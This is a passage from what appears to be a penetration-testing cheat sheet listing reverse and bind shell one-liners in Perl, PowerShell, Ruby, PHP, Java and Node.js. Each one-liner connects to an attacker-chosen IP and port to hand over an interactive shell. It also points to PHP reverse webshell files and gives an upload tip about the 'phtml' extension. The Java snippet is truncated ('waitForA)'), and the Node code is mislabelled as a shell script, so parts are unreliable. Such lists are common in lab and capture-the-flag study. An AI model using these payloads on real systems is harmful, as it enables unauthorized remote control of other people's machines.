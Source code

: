     > bind > perl -e 'use Socket;$i="10.10.10.10";$p=4443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
- powershell:
    > reverse > powershell -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.18',4446);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i =$stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
    > bind  > powershell -c "$listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0',4444);$listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();$listener.Stop()"
    - For code injection
        > echo |set /p="$client = New-Object System.Net.Sockets.TCPClient("10.10.10.10",80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
- Ruby
    > ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
- PHP (Try with all versions of PHP)
    > php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
    - use a reverse webshell
        NOTE: try changing to "phtml" if .php extension cant be used
        - Windows
            > /usr/share/webshells/php/windows-php-reverse-shell/wrs.php
        - Linux
            > /usr/share/webshells/php/php-reverse-shell.php

- Java
    > r = Runtime.getRuntime()
      p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
      p.waitForA)
    - Link provides details on oracle java reverse shell by decenteralization
        http://obtruse.syfrtext.com/2018/07/oracle-privilege-escalation-via.html
- Nodejs:
    - Create a "reverse.sh"
    (function(){
    var net = require("net"),
    cp = require("child_process"),
    sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(443, "10.10.14.28", function(){
    client.pipe(sh.stdin);
    sh.stdout.pipe(client);
    sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
    })();
